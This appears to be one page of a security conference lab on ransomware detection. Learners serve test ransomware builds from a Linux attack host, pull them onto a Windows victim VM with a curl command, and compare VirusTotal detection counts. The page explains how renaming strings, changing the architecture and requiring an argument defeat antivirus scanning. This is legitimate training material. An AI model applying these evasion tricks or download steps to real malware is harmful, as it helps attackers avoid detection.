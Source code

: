 # Detection

## Host the "evil" files.

1. Make sure you are connected to the NIX-ATTACK-HOST-#
2. First record your IP address on the eth0 interface. `ip addr`
3. Now change directory into the notransomware directory.
4. Run the following command to serve the files for download.
`python3 -m httpserver`

## Update Lab Files
1. Now it is time to swap to the WINDOWS-VICTIM-HOST. Press ctrl+shift+alt(command+ctrl+shift). 
2. Open a administrative command prompt by clicking the search icon (magnifying glass) in the bottom left.
3. Type cmd and click on the command prompt desktop app icon when it appears.
4. Change directories to the lab files on the desktop. `cd c:\Users\Administrator\Desktop\rsac21-ransom`
5. Update the files from the git repo.  `git pull`

## Download the "evil" files.

1. Switch to the "WIN-VICTIM-HOST-#" by pressing **ctrl+shift+alt**.
2. Do some pre-flight checks, you can access all the required programs by clicking the search bar in the bottom left and typing their respective names. When they appear in the start menu results, double click them.
- Is a folder on the desktop called? (If not, launch a command prompt and run `git clone `)
- Is firefox installed? (If not, launch a command prompt and run `choco install firefox`)
3. Open a command prompt. 
4. Run the following command with my new favorite living off the land binary for dowloading remote files. 
`curl http://172.31.24.<last octet of your linux attack host>:8000/test1.exe -o test1.exe`
5. Once you have this worked out, download all theo ther files you created on the linux attack host just changing the file names.
6. This is your first detection example...no alerts from windows defender.

## What does virust total have to say about all this?

1. Open firefox and browse to virus total.  www.virustotal.com
2. Click the **choose a file** optiont to upload for analysis.
3. Browse to C:\Users\Administrator and select test1.exe.
4. Wait for the analysis. It will look something like this, but may have changed with all of the concurent uploads of a similar file.
> Remember this is was the file that you saved as is and compiled in the amd64 architecture. Having just 3 detections for what will effectively encrypt files in your homedrive and attempt to connect to a server, while dropping a key and ransom note is pretty scray in itself.
5. Now Click the upload button in the top left beside the search bar and upload the second sample test2.exe
> This was the sample you simply replaced all occurances of the word encrypt with another word. This now comes back with only 2 detections. Putting on show case that changing common words and text associated with malware inside binaries will trick a number of detections in iteslef. Not to mention this changes zero function of the binary while completely changing the hash.
6. Finally, upload the 32bit version of this sample. Same sample as before, but compliled for the more commonly execuable 32bit architecture.
> By nature of the architecture you will see many more detections now, many of the static and behavioral analysis tools are tuned toward 32bit binaires and instructions.
7. All that's great but now upload the final sample where you added the argument requirement for it to run. Test232-args.exe.
> You will notice nearly all the detections go away now, even in the 32bit architecture. All of that work spent on creating different types of anti analysis techiniques and simply adding an argument requirement will fool nearly every auto analysis capability out there, making the detection solely reliant on strings.

Let's return to talk about what just happened and get ready to move on to live reponse.


